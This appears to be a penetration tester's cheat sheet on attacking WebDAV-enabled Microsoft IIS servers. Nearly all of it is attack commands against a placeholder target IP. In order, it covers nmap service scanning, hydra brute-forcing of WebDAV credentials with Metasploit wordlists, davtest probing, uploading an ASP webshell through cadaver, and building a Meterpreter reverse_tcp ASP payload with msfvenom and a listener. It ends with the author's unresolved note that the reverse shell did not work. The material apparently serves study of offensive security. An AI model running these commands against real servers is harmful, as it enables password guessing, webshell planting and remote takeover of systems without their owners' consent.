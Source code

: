 # HTTP

## WebDAV
- Microsoft IIS
  - Hosts Web pages developed in ASP.NET and PHP.
  - Supported executable file extensions: .asp, .aspx, .config, .php.

- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is NOT a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

msf > use /multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST <ip>
msf > set LPORT <port>
msf > exploit

http://<ip>/webdav/reverse.asp
==> Does not work, even with .aspx and x64 payload, why?
```
